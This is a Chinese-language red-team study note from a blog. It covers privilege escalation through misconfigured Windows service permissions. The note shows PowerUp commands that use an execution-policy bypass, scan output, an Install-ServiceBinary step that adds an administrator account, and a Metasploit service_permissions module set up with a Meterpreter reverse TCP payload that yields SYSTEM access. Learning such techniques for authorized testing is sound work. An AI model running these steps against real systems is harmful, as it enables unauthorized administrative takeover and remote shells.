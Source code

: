 ```yaml
---
title: 【内网学习笔记】15、系统服务权限配置不当利用
date: 2021-07-22 17:31:57
id: 210722-173157
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210722172401.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


### PowerUp

PowerUp 可以用来寻找目标中权限配置不当的服务，下载地址：[https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

在 PowerShell 中导入并执行脚本

```
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

如果 PowerShell 由于处在受限模式以至于无法导入脚本，可以使用以下命令绕过。

```
powershell.exe -exec bypass -command "&{Import-Module .\PowerUp.ps1;Invoke-AllChecks}"
```

```
PS C:\Users\teamssix\Desktop> powershell.exe -exec bypass -command "&{Import-Module .\PowerUp.ps1;Invoke-AllChecks}"

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...
[+] User is in a local group that grants administrative privileges!
[+] Run a BypassUAC attack to elevate privileges to admin.

[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...

ServiceName    : MongoDB
Path           : C:\Web\mongodb\bin\mongod.exe --auth --config C:\Web\mongodb\mongod.conf --s
                 ervice
ModifiableFile : C:\Web\mongodb\mongod.conf
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'MongoDB'
```

由于结果可能比较长，因此也可以将其保存到 txt 文件里，方便查看

```
powershell.exe -exec bypass -command "&{Import-Module .\PowerUp.ps1;Invoke-AllChecks | Out-File -Encoding ASCII result.txt}"
```

从检查的结果可以看出 MongoDB 服务存在漏洞，利用 Install-ServiceBinary 模块，通过 PowerUp 利用该处权限配置不当添加管理员用户。

```
powershell.exe -exec bypass -command "&{Import-Module .\PowerUp.ps1;Install-ServiceBinary -ServiceName 'MongoDB' -UserName test -Password Passw0rd}"
```

```
PS C:\Users\teamssix\Desktop> powershell.exe -exec bypass -command "&{Import-Module .\PowerUp.ps1;Install-ServiceBinary -ServiceName 'MongoDB' -UserName test -Password Passw0rd}"

ServiceName                   ServicePath                   Command                       BackupPath
-----------                   -----------                   -------                       ----------
MongoDB                       C:\Web\mongodb\bin\mongod...  net user test Passw0rd /ad... C:\Web\mongodb\bin\mongod...
```

重启系统，查看用户，发现 test 已经被添加到管理员组了。

```
PS C:\Users\teamssix\Desktop> net user test
用户名                 test
全名
……
本地组成员             *Administrators       *Users
全局组成员             *None
命令成功完成。
```

### Metasploit

在 MSF 中，先看下已上线主机的权限

```
meterpreter > getuid
Server username: TEAMSSIX\dev
```

MSF 中对应服务权限配置不当的利用模块是 `exploit/windows/local/service_permissions`

利用步骤如下：

```
use exploit/windows/local/service_permissions
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.7.1
set lport 4444
set session 1
run
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210722172401.png)

可以看到会话直接被提升到了 SYSTEM 权限。

> 参考文章：
>
> [https://evi1cg.me/archives/Powerup.html](https://evi1cg.me/archives/Powerup.html)
>
> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
